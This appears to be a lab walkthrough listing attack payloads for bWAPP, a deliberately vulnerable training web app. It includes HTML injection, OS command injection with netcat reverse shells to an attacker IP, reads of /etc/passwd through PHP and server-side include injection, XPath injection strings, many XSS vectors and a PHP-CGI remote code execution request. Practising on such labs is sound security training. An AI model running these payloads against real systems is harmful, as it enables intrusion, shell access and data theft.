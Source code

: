 <b>bWAPP is an insecure open-source web application designed to improve the skills of students, developers or people interested in IT security in order to discover and prevent web vulnerabilities</b>


<h3> As my expectation bWAPP is the best Insecure  web application to test owasp top 10 for Student</h3>
# A1 - Injection

### HTML Injection - Reflected (GET)
htmli_get.php

```
192.168.200.150/bWAPP/htmli_get.php?firstname=%3Ch1%3EHello%3C%2Fh1%3E&lastname=%3Ch2%3EWorld%3C%2Fh2%3E&form=submit
```

### HTML Injection - Reflected (POST)

```
<h1>Hello</h1>
<h2>World</h2>
```
### HTML Injection - Stored (Blog)

Following solution taken from:

```
<div class="code"><iframe SRC="http://192.168.200.130:775" height="0" width="0"></iframe></div>
```
Attacker's Box:
```
nc -lvp 775
```

### OS Command Injection
```
127.0.0.1; cat /etc/passwd
127.0.0.1 & cat /etc/passwd
127.0.0.1 | cat /etc/passwd
127.0.0.1 && nc -vn 192.168.254.128 775 -e /bin/bash
```

Attacker's Box:
```
nc -lvp 775
```


### OS Command Injection - Blind
```
127.0.0.1 | sleep 10
```

### PHP Code Injection

```
192.168.200.130/bWAPP/phpi.php?message=a;echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
```

### Server-Side Includes:

```
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
<!--#exec cmd="nc -lvp 775 -e /bin/bash" -->
Attacker's Box:
```
nc -nv 192.168.200.150 775

### XPath Injection (Login Form)
```
password=' or id='2
```

### XML/XPath Injection (Search)
```
genre=')]/password | a[contains(a,'
genre=') or contains(genre, '
genre=') or not(contains(genre, 'xxx') and '1'='2
```


# A3 - Cross-Site Scripting (XSS) 

### XSS - Reflected (GET)
xss_get.php

```
<script>alert(Hi )</script>
```
### XSS - Reflected (POST)

xss_post.php
```
<script>alert(2017)</script>
```

### XSS - Reflected (JSON)

xss_json.php
```
"}]}';prompt(2017)</script>
```

### XSS - Reflected (AJAX/JSON)

xss_ajax_2-1.php
```
<svg onload=prompt(2017)>
```

### XSS - Reflected (AJAX/XML)
xss_ajax_1-1.php
```
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
```

Alternatively I was able to get XSS to execute on the AJAX called.
```
xss_ajax_1-2.php?title=<html xmlns='http://www.w3.org/1999/xhtml'><script>prompt(2017)</script></html>
```

### XSS - Reflected (Back Button)
Modify Referer header field
```
Referer: ';alert(2017);'
```

### XSS - Reflected (Custom Header)
Add header field
```
bWAPP: <script>alert(2017)</script>
```

### XSS - Reflected (Eval)
```
date=alert(2017)
```

### XSS - Reflected (HREF)
```
Referer: <script>alert(2017)</script>
```

### XSS - Reflected (User-Agent)
```
User-Agent: <script>alert(2017)</script>
```
### PHP CGI Remote Code Execution
```
POST /bWAPP/admin/phpinfo.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.200.150
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 70
Cookie: security_level=0; PHPSESSID=e27e4148fbb0b82028e1cd6e159f4e7a
Connection: close

<?php $r; exec('cat /etc/passwd', $r); echo implode($r, "\n"); die; ?>
```



